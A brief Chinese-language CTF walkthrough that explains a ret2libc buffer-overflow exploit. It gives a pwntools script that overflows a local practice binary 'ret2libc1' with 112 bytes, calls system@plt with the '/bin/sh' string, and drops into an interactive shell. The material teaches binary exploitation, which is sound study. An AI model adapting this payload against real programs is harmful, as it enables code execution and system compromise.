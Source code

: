 + 首先找到 `system` 的libc地址，然后找到 `bin_sh` 字符串的地址，通过调用 `plt` 表中的 `system` 函数，并将 `bin_sh` 的地址作为其参数传入。

```python3
from pwn import *

io = process("./ret2libc1")

elf = ELF("./ret2libc1")

system_plt = elf.plt["system"]

bin_sh = next(elf.search(b"/bin/sh"))  # elf.search返回的是一个迭代器，要用next获取第一个元素

print(hex(bin_sh))

print(hex(system_plt))

payload = flat([b'A' * 112, system_plt, b'aaaa', bin_sh])

io.sendline(payload)

io.interactive()
```